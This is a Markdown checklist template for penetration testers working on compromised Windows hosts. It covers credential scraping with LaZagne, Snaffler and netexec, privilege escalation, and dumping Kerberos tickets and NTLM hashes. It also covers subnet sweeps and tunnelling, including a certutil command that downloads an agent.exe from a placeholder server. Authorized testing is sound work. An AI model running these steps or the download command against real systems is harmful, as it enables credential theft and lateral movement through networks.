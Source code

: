 # 🛡️ Host Post-Compromise & Pivoting Checklist (Template)

**Copy & paste this into each host folder before starting work.**

---

## 1) Initial Checks
- [ ] Check current user privileges with `whoami /all`

```powershell
whoami /all
```
- [ ] Note if the host is domain-joined
- [ ] Identify machine role (workstation, server, DC, etc.)

---

## 2) Scraping for Credentials (IMPORTANT)
Scrape the host for credentials using these tools/scripts:

- [ ] `LaZagne`
- [ ] `Snaffler`
- [ ] Look for others **(FIND THE MOST YOU CAN AND THE BEST SCRIPTS)**

**If the host is domain-joined, re-check access on `SMB`, `FTP`, `SMTP`, `RPC`, `IMAP`, etc. with `netexec`:**

```bash
# netexec examples
nxc smb <target> --shares
nxc smb <target> --spider <sharefolder> --pattern "pass"
nxc smb <target> -M spider_plus
```

---

## 3) Privilege Escalation
If none of the above yields local admin creds, perform PrivEsc:

- Run `JAWS`, `WinPEAS` to check for privilege escalation vectors
- Abuse viable findings to obtain `NT AUTHORITY\SYSTEM`

### UAC, LAPS, Defender
- [ ] UAC status checked
- [ ] LAPS presence/status checked
- [ ] Defender status/exclusions checked

---

## 4) Loot (Post-Compromise)
- [ ] Extract cached Kerberos tickets and NTLM hashes
- [ ] Document findings:
  - `commands.md` — commands used
  - `finding.md` — what/why/how + impact + caption
  - `evidence.md` — screenshots / proof
- [ ] Collect all creds into `host/loot/creds.md` (Obsidian)

---

## 5) Pivoting to Internal Network
- [ ] Run `hostname` and `ipconfig` to understand the purpose of the host

```powershell
hostname
ipconfig /all
```

- [ ] Ping sweep the subnet the host is in (from Linux or approved tools)

```bash
# from Linux (examples — adjust subnet and tooling to your ROE)
nmap -sn 172.x.x.0/24
# or
fping -a -g 172.x.x.0/24 2>/dev/null
```

---

## 6) Setting Up a New Pivot
- [ ] Get hostnames of discovered hosts from the Windows host

```powershell
# (add your preferred enumeration commands, e.g.)
arp -a
Get-DnsClientCache
```

> If inbound ping is disabled and hosts don't answer back (firewall blocks ICMP/echo), note alternative discovery to tackle later.

- [ ] Map out the networks by drawing them in your canvas/diagram tool

---

## 7) Set Up a Tunnel
- [ ] Use Ligolo to generate a cert and move it via SMB/HTTP/WMI
- [ ] Try `certutil` where appropriate

```powershell
# example placeholder
certutil -urlcache -split -f http://<your_server>/agent.exe agent.exe
```